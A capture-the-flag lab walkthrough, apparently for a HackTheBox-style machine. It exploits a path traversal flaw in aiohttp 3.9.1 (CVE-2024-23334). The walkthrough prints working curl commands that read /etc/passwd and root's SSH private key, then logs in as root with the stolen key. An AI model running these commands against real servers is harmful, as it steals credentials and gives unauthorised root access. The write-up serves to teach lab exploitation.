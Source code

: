The server uses `aiohttp/3.9.1`, an asynchronous HTTP client/server framework for asyncio and Python.

We find [CVE-2024-23334](https://www.cve.org/CVERecord?id=CVE-2024-23334), a path traversal vulnerability allowing directory traversal via concatenated `../` to a static path.

To test the vulnerability, we'll attempt to read `/etc/passwd`.

```
curl --path-as-is http://127.0.0.1/assets/../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin

...etc...
```

It works! To escalate privileges, we'll try to read root's SSH private key.

```
curl --path-as-is http://127.0.0.1/assets/../../../../../../root/.ssh/id_rsa -o id_rsa_root
```

Set appropriate permissions for the key.

```
chmod 600 id_rsa_root
```

And connect using the obtained key.

```
ssh root@10.129.235.159 -i id_rsa_root
```

Finally, retrieve the `root` flag.

```
cd
cat root.txt
```

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.